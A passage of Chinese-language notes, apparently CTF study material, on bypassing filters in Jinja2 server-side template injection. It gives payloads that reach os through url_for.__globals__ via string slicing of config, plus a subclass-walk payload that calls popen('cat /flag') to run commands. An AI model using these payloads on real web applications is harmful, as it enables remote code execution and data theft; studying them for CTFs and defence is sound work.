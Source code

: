 ## 3.request.cookies.cmd配合cookie

![image-20240513162359073](images/image-20240513162359073.png)

## 4.字符串拼接绕过

```
(config.__str__()[2])='o'
(config.__str__()[42])='s'

?name={{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])]}}
等于
?name={{url_for.__globals__['os']}}
```

## 5.过滤器拼接

```
(()|select|string)[24]
```



# 9.过滤器绕过下划线过滤

## 1.request 绕过

attr()函数

原paylload

```
{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]('cat /flag').read()}}
```

![image-20240513212013589](images/image-20240513212013589.png)
